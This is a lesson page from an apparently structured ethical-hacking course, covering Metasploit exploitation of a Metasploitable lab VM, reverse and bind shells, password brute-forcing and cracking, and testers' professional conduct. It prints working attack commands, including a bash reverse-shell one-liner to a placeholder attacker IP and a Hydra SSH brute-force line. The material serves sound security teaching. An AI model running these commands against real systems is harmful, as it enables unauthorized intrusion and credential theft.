

# Exploitation techniques

This is the phase most people picture when they imagine "hacking" — but as you'll see, professional exploitation is disciplined, careful, and thoroughly documented, not the chaotic movie-style typing montage.

## What exploitation actually means here

**Exploitation** is the act of actually leveraging a discovered vulnerability to gain some form of unauthorized access or capability — proving the vulnerability is real and understanding its actual impact, rather than just theorising about it.

Everything from Path 11 (SQLi, XSS, IDOR, command injection, file upload, SSRF) and Path 12 (Wi-Fi cracking, MITM) is, technically, exploitation. This lesson focuses on the **professional discipline** around exploitation, plus introduces the framework that ties it all together: **Metasploit**.

## Metasploit — the exploitation framework

**Metasploit** is a massive, free, open-source framework containing thousands of pre-built, tested exploits, payloads, and auxiliary modules — letting testers exploit known vulnerabilities without writing custom exploit code from scratch every time.

```bash
# Launch the Metasploit console:
msfconsole

# Search for exploits matching a service:
search vsftpd

# Select and configure a specific exploit module:
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.56.20
run
```

### The core Metasploit vocabulary

| Term | Meaning |
|---|---|
| **Exploit** | The code that actually triggers the vulnerability |
| **Payload** | What runs *after* successful exploitation (a shell, a Meterpreter session) |
| **Meterpreter** | Metasploit's advanced, in-memory post-exploitation payload — far more capable than a basic shell |
| **Auxiliary module** | Non-exploit modules (scanners, brute-forcers, fuzzers) |
| **RHOSTS / RPORT / LHOST / LPORT** | Standard variables — remote host/port (target), local host/port (your listener, for reverse connections) |

### A worked example against Metasploitable

```bash
msfconsole -q

# The famous vsftpd 2.3.4 backdoor — a deliberately backdoored version present on Metasploitable:
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.20
run

# On success, you land in a shell as root — check:
whoami
id
```

This single exploit chain — discovered during enumeration (Path 14.4's `searchsploit "vsftpd 2.3.4"` match), then exploited here — demonstrates the direct phase-to-phase flow of a real assessment.

## Reverse shells and bind shells

Two fundamental patterns for gaining interactive command execution after exploiting a vulnerability:

- **Bind shell** — the target listens for a connection; you connect *to* it. Simple, but often blocked by firewalls protecting inbound connections to the target.
- **Reverse shell** — the target initiates a connection *back to you*. Far more commonly successful in practice, since outbound connections from inside a network are typically far less restricted than inbound ones (recall the firewall/NAT concepts from Path 02 and Path 12.4).

```bash
# Setting up a listener on your attacking machine (Kali):
nc -lvnp 4444

# A classic reverse shell one-liner (if you can get a target to execute this,
# e.g., via a command injection vulnerability from Path 11.7):
bash -i >& /dev/tcp/YOUR_KALI_IP/4444 0>&1
```

If the target executes that command (perhaps injected via a command injection vulnerability you found in Path 11.7's testing), your listening `nc` session receives an interactive shell running on the target machine.

## Manual exploitation — beyond automated frameworks

Not every vulnerability has a ready-made Metasploit module — much of Path 11's content (custom SQLi, XSS, IDOR) is inherently manual, application-specific exploitation using Burp Suite rather than Metasploit. Professional testers move fluidly between both:



## Password attacks during exploitation

Recall Path 10.5's password cracking concepts, now applied hands-on:

```bash
# Hydra — online brute-force against a live login service:
hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt \
  ssh://192.168.56.20

# John the Ripper / Hashcat — offline cracking of captured/leaked password hashes:
john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hashes.txt
hashcat -m 0 -a 0 hashes.txt /usr/share/seclists/Passwords/rockyou.txt
```

**Password spraying** — trying one or two common passwords against *many* usernames (rather than many passwords against one username) — is a particularly effective, low-noise real-world technique, since it avoids triggering per-account lockout policies while still catching the inevitable few users with weak, predictable passwords across a large organisation.

## Staged vs non-staged payloads — a practical distinction

When configuring a Metasploit payload, you'll routinely see two naming variants, e.g., `windows/meterpreter/reverse_tcp` vs `windows/meterpreter_reverse_tcp` — the difference is whether the payload arrives in one piece or two. A **staged payload** sends a small initial "stager" first (minimising the exploit's footprint, useful when the vulnerability only allows a tiny amount of injected code), which then downloads and loads the full, larger payload as a second stage over the connection. A **non-staged (single/inline)** payload sends everything in one shot — simpler and slightly more reliable when the exploit has room for it, but a larger initial footprint that some intrusion detection signatures specifically watch for. Understanding which variant an exploit needs — and why — is exactly the kind of practical detail that separates comfortably using Metasploit from truly understanding what it's doing.

## The discipline of professional exploitation

This is where Path 14 diverges sharply from a casual CTF (Capture The Flag) mindset:

- **Log everything** — exact command, exact timestamp, exact result — for every attempt, successful or not.
- **Minimise impact** — avoid exploits that could crash a production service or corrupt data unless explicitly authorized and necessary to demonstrate impact (a crashed production server is a serious, costly problem even during "successful" authorized testing).
- **Respect the RoE** — if denial-of-service-style techniques weren't explicitly authorized (Path 14.2), don't use them even if they'd technically work.
- **Stop and escalate if something unexpected happens** — if exploitation reveals something far more serious than anticipated (e.g., accidental access to genuinely sensitive live customer data), pause and follow the engagement's escalation procedure rather than continuing to explore independently.

:::danger EXPLOITATION CAN CAUSE REAL DAMAGE
Unlike scanning/enumeration, exploitation actively changes system state — crashing services, corrupting data, or triggering unintended side effects are genuine risks even in authorized testing. Professional testers exercise real caution here, often testing riskier exploits in a staging environment first if one's available, and always within the explicit boundaries the RoE establishes.
:::

## 🧪 Lab — Exploit Metasploitable end-to-end

Using your Kali VM against a Metasploitable 2 VM on your isolated Host-only network (Path 03.7):

```bash
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <metasploitable-ip>
run
# You should land as root — confirm with:
whoami
uname -a
```

Then try a second, different exploitation path — perhaps a weak Samba configuration, or a known vulnerable service version identified in your Path 14.4 enumeration lab. Document each attempt in a simple log:

```
[2026-07-13 14:32] Target: 192.168.56.20:21 | Exploit: vsftpd_234_backdoor
  Result: SUCCESS — shell as root
[2026-07-13 14:41] Target: 192.168.56.20:445 | Exploit: samba_usermap_script
  Result: FAILED — service patched
```

This log format is exactly what feeds into Path 14.7's formal reporting.

:::challenge Test yourself
Why do professional testers generally prefer reverse shells over bind shells when exploiting a vulnerability on a target inside a corporate network?

<details><summary>Show answer</summary>Corporate firewalls typically restrict <strong>inbound</strong> connections to internal hosts far more strictly than <strong>outbound</strong> connections initiated from inside the network. A bind shell requires the tester to connect <em>into</em> the target — often blocked. A reverse shell has the target connect <em>out</em> to the tester's listening machine, which is far more likely to succeed since outbound traffic is generally far less restricted, exactly mirroring the NAT/firewall behaviour covered in Path 02 and Path 12.4.</details>
:::

## Key terms

- **Metasploit** — the standard open-source exploitation framework with thousands of pre-built modules.
- **Payload / Meterpreter** — what runs after successful exploitation; Meterpreter is Metasploit's advanced post-exploitation payload.
- **Reverse shell / bind shell** — target-connects-out vs tester-connects-in interactive shell patterns.
- **Password spraying** — trying few passwords against many usernames to avoid lockouts while still catching weak passwords.

## Recap

- Exploitation proves a vulnerability is real and demonstrates actual impact — Metasploit provides pre-built modules for known CVEs, manual techniques (Burp, scripts) cover custom application logic.
- Reverse shells are generally more reliable than bind shells due to typical firewall/NAT configurations.
- Password spraying is a realistic, effective technique distinct from traditional brute-forcing.
- Professional exploitation is disciplined — logged, minimally impactful, RoE-respecting, and paused/escalated when something unexpected arises.

???refs
- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/) — the free, official, comprehensive Metasploit training resource.
- [Hydra documentation](https://github.com/vanhauser-thc/thc-hydra) — online brute-force tool reference.
- [Hashcat wiki](https://hashcat.net/wiki/) — comprehensive offline password cracking reference.
- [Metasploitable 2 exploitation guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/) — official walkthrough of this lesson's practice target.
???

**Next up →** [Post-exploitation & pivoting](#/lesson/14-ethical-hacking/post-exploitation)
